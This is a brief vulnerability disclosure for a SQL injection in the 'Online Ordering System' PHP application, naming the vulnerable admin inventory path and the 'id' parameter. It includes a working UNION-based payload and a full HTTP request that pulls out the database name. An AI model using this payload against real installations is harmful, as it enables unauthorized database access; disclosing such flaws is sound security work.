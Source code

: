 # Online Ordering System By janobe has SQL injection vulnerability

Author： Wang Chen Jun

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/admin/inventory/index.php?view=edit&id=

Vulnerability location: /ordering/admin/inventory/index.php?view=edit&id= //id is Injection point

[+]Payload: /ordering/admin/inventory/index.php?view=edit&id=-2%27%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ //id is Injection point

Current database name: multistoredb

```sql
GET /ordering/admin/inventory/index.php?view=edit&id=-2%27%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/168944884-0775b465-0205-4b34-9e88-837473fb8c62.png)

![image](https://user-images.githubusercontent.com/54017627/168944922-4ed8d536-da20-48ba-a943-26220b636633.png)
